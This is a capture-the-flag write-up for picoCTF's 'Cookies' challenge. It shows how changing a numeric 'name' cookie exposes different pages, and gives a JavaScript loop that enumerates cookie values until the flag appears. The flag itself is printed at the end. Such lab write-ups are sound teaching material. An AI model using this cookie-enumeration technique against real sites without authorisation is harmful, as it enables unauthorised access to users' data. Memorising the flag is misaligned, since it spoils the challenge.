



# Cookies

[Link to the challenge](https://play.picoctf.org/practice/challenge/173)

## Description

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/

## Hints

(None)

## Solution

The [website](http://mercury.picoctf.net:29649/) is a simple page with a button and an input field that has placeholder text: `snickerdoodle`. Seems like `snickerdoodle` is one of the cookies. Let's check the cookies. In Firefox, go to `Tools > Web Developer > Storage Inspector`. In the `Cookies` tab, we can see the cookie `name` with value `-1`.



I tried to input `snickerdoodle` in the input field and click the button. The cookie `name` changed to `0`.


I tried to change the cookie `name` to `1` and refresh the page. The cookie name changed to `chocolate chip`.



So I think I can just keep incrementing the cookie `name` until I get the flag. I wrote a script to do that.

```javascript
(async () => {
  let cookie = 0;
  while (true) {
    document.cookie = `name=${cookie}`;
    const html = await fetch(`http://mercury.picoctf.net:29649/check`).then(
      (res) => res.text()
    );
    document.documentElement.innerHTML = html;
    const textElement = document.querySelector(".jumbotron > p:nth-child(2)");
    console.log(textElement.textContent);
    if (textElement.textContent.includes("picoCTF")) break;
    cookie++;
  }
})();
```

Basically, the script will keep incrementing the cookie `name` and check if the text contains `picoCTF`. When it does, it will print the text and stop. I ran the script inside the console and got the flag.



## Flag

picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}
